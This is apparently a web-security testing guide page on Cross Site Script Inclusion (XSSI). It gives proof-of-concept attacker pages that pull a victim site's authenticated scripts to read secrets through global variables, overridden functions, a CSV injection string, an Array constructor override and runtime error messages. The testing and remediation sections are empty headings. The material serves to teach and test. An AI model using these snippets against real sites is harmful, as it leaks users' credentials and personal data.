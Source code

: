 # Summary

Cross Site Script Inclusion (XSSI) vulnerability allows sensitive data leakage across-origin or cross-domain boundaries. Sensitive data could include authentication related data (login states, cookies, auth tokens, session IDs, etc.), user personal or sensitive personal data (email addresses, phone numbers, credit card details, social security numbers, etc.). XSSI is a client-side attack similar to Cross Site Request Forgery (CSRF) but they have a different purpose: CSRF uses the authenticated user context to execute certain state-changing actions inside a victim’s page (eg. transfer money to the attacker's account, modify privileges, reset password, etc.) and an XSSI attack uses JavaScript on the client side to leak sensitive data from authenticated sessions.

By default websites are only allowed to access data if they are from the same origin. This is a key application security principle and governed by the same-origin policy (defined by RFC 6454 [1]). An origin is defined as the combination of URI scheme (http/https), host name, and port number. However, this policy is bypassed/not appliable for <SCRIPT> HTML tag inclusions. This exception is necessary, without it websites would not be able to consume third party services, traffic analysis or advertisement platforms, etc.

When the browser opens a website the <SCRIPT> resources are fetched from the cross-origin domain and they run in the same context as the including site/browser which presents the opportunity to leak sensitive data. This is in most cases JavaScript however the SCRIPT SRC entity doesn't have to be a JavaScript file or be served with text/javascript or .js extension. Some browsers are lenient and only block if it is served with an image type (image/), a video type (video/), an audio (audio/*) type, or text/csv [10].

Old browser version vulnerabilities (IE9/10) allowed data leakage via JavaScript error messages at runtime but those vulnerabilties have now been patched by vendors and are considered not as relevant. By setting the charset attribute of the <SCRIPT> tag the attacker/tester can enforce UTF-16 encoding which allows data leakage for other data formats (eg JSON). If you want to learn more about these please read Takeshi Terada: Identifier based XSSI attacks MBSD Technical Whitepaper [8].

The following XSSI vulnerability cases will be discussed:

1. Leak sensitive data via global variables
2. Leak sensitive data via global function parameters
3. Leak sensitive data via non-JavaScript resource - CSV with quotations theft
4. Leak sensitive data via JavaScript runtime errors

## Example - Leak sensitive data via global variables

1. An API key is stored in a JavaScript file with the URI https://victim.com/internal/api.js on the victim's website (victim.com) which is only accessible for authenticated users. The attacker/tester configures a website (attackingwebsite.com) and uses the <script> tag to refer to this JavaScript file in question.

api.js contents:
```
(function() {
  window.secret = "supersecretUserAPIkey";
})();
```

2. The attacker/tester has configured a website (attackingwebsite.com) with the following content:

index.html contents:
```
<!DOCTYPE html>
<html>
  <head>
    <title>Leaking data via global variables</title>
  </head>
  <body>
    <h1>Leaking data via global variables</h1>
    <script src="https://victim.com/internal/api.js"></script>
    <div id="result">
    </div>
    <script>
      var div = document.getElementById("result");
      div.innerHTML = "Your secret data <b>" + window.secret + "</b>"; 
    </script>
  </body>
</html>
```

3. The attacker lures the user to attackingwebsite.com either via social engineering, phishing emails, etc. This step requires the user to authenticate first to victim.com before visiting attackingwebsite.com.

4. The user's browser fetches the api.js and the sensitive data is leaked via the global JavaScript variable. 

## Example - Leak sensitive data via global function parameters

This example is similar to the previous one except in this case attackingwebsite.com uses a global JavaScript function to extract the sensitive data by overwriting the victim's global JavaScript function.

index.html contents:
```
<!DOCTYPE html>
<html>
  <head>
    <title>Leaking data via global function parameters 1</title>
  </head>
  <body>
    <div id="result">
    </div>
    <script>
      function globalFunction(param) {
        var div = document.getElementById("result");
        div.innerHTML = "Your secret data: <b>" + param + "</b>";
      }
    </script>
    <script src="https://victim.com/internal/api.js"></script>
  </body>
</html>
```

api.js contents:
```
(function() {
  var secret = "supersecretAPIkey";
  window.globalFunction(secret);
})();
```

There are other XSSI vulnerabilities leaking sensitive data either via JavaScript prototype chains or global function calls. If you want to learn more about these please visit Sebastian Leike's page [4].

## Example - Leak sensitive data via non-JavaScript resource - CSV with quotations theft

To leak data the attacker/test has to be able to inject JavaScript code into the CSV data. The following example is an excerpt from Takeshi Terada's identifier basedXSSI attacks whitepaper [8]:

```
HTTP/1.1 200 OK
Content-Type: text/csv
Content-Disposition: attachment; filename="a.csv"
Content-Length: xxxx

1,"___","aaa@a.example","03-0000-0001"
2,"foo","bbb@b.example","03-0000-0002"
...
98,"bar","yyy@example.net","03-0000-0088"
99,"___","zzz@example.com","03-0000-0099"
```

In this case using the ___ parts as injection points and inserting the \"",$$$=function(){/* string has the following result:

```
1,"\"",$$$=function(){/*","aaa@a.example","03-0000-0001"
2,"foo","bbb@b.example","03-0000-0002"
...
98,"bar","yyy@example.net","03-0000-0088"
99,"*/}//","zzz@example.com","03-0000-0099"
```

Gmail had a similar vulnerability in 2006 that allowed the extraction of user contacts in JSON[11]. In this case the data was received from Gmail and parsed by the browser JavaScript engine using an unreferenced Array constructor to leak the data. The attacker/tester could access this Array by defining and overwriting the internal Array constructor like this:

```
<!DOCTYPE html>
<html>
  <head>
    <title>Leaking gmail contacts via JSON </title>
  </head>
  <body>
    <script>
      function Array() {
        // steal data
      }
    </script>
    <script src="http://mail.google.com/mail/?_url_scrubbed_"></script>
  </body>
</html>
```

## Example - Leak sensitive data via JavaScript runtime errors

Browsers normally present a standardized Javascript error message like "Script error.". However, in the case of IE9/10 runtime error messages provided additional details which could be used to leak data. For example, a website (victim.com) serves the following content at the URI http://victim.com/service/csvendpoint for authenticated users:

```
HTTP/1.1 200 OK
Content-Type: text/csv
Content-Disposition: attachment; filename="a.csv"
Content-Length: 13

1,abc,def,ghi
```

This vulnerability could be exploited with the following:

```
<!--error handler -->
<SCRIPT>window.onerror = function(err) {alert(err)}</SCRIPT>
<!--load target CSV -->
<SCRIPT src="http://victim.com/service/csvendpoint"></SCRIPT>
```

When the browser tries to render the CSV content as JavaScript it fails and leaks the sensitive data:

![JavaScript runtime error message ](../images/XSSI1.jpeg)

## How to Test
### Black Box Testing
### Gray Box Testing
# Remediation
# References
# Tools
